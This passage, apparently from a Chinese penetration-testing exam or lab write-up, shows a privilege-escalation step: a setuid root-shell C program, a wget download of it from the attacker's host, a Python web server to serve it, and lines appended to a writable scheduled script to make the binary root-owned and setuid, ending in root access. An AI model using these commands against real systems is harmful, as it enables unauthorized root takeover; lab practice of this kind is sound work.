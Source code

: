 由于我们可以编辑文件 write.sh

我们将使用它来下载一个 rootshell.c 文件

- 给它适当的权限
- 更改所有者

脚本内容如下：

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

文件保存的名字为 rootshell.c

下载文件

```
wget wget http://192.168.81.131:1234/rootshell.c
```

![image-20220401120742808](第3次 考试测试.assets/image-20220401120742808.png)

注意下载文件的时候kali开启服务

```
python2 -m SimpleHTTPServer 1234 
```

![image-20220401120824708](第3次 考试测试.assets/image-20220401120824708.png)

## 4.3 获得root

```
echo "chown root:www-data /var/www/html/rootshell" >> write.sh
echo "chmod 777 /var/www/html/rootshell" >> write.sh
echo "chmod +s /var/www/html/rootshell" >> write.sh
```

我们等了 5 分钟，然后就获得了root权限